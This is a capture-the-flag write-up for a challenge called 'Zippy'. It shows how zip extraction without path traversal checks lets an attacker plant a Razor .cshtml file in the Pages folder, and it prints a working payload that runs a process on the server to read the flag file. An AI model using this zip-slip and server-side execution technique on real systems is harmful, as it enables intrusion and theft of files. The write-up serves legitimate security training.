

# Zippy
Need a quick solution for archiving your business files? Try Zippy today, the Zip Archiver built for the small to medium business!

NOTE: This challenge may take up to two minutes or so to completely start and load in your browser. Please wait.

## Solution
After logging into the Zippy interface, I explored the available pages, Upload, Browse, Logs, and About. The Upload page allowed me to upload files, while the Browse page enabled directory browsing with input for directory paths. The Logs page offered backend activity logs, which proved invaluable throughout the challenge.

As I examined the logs, I noticed a line stating that file extraction was performed "without path traversal checks" This was a big clue: it strongly suggested that the challenge would allow directory traversal via crafted paths in filenames. Additionally, the About page revealed that the backend was built on .NET using Razor Pages, which could accept `.cshtml` files, executable Razor markup that would enable me to create a payload to execute server-side commands.

Normally, Razer pages do not offer runtime compilation, according to the website, this one does! After doing some research, the normal file structure would look something like this:



All executable `.cshtml` files are typically located within the Pages directory, meaning that for any `.cshtml` script to run successfully, it would need to be uploaded into this specific folder. Consequently, I realized I'd need to use path traversal to place my payload in this folder, as `.cshtml` scripts wouldn't execute if stored in any other directory.

After some tial and error, I found the correct path to be `..\..\..\Pages`. Because Zippy was extracting files from a ZIP archive, the traversal path needed to be specified precisely in the folder structure within the ZIP file. With this in mind, I created a ZIP file that contained a `..\..\..\Pages` folder and included a simple test script inside to confirm it was working, and it was.

Finally, the last step was to craft a cshtml-script to get the flag. The script I (chatGPT) came up with was the following:

```cshtml
@page
@{
    var output = "";
    try
    {
        var psi = new System.Diagnostics.ProcessStartInfo();
        psi.FileName = "/bin/cat";
        psi.Arguments = "/app/flag.txt";
        psi.RedirectStandardOutput = true;
        psi.RedirectStandardError = true;
        psi.UseShellExecute = false;
        var process = System.Diagnostics.Process.Start(psi);
        output = process.StandardOutput.ReadToEnd();
        output += process.StandardError.ReadToEnd();
        process.WaitForExit();
    }
    catch (Exception ex)
    {
        output = ex.ToString();
    }
}
<pre>@output</pre>
```

This script can be saved as `[anyname].cshtml` inside the `..\..\..\Pages`-folder. Then, to get the flag, I simply had to visit `/[anyname]` to get the flag.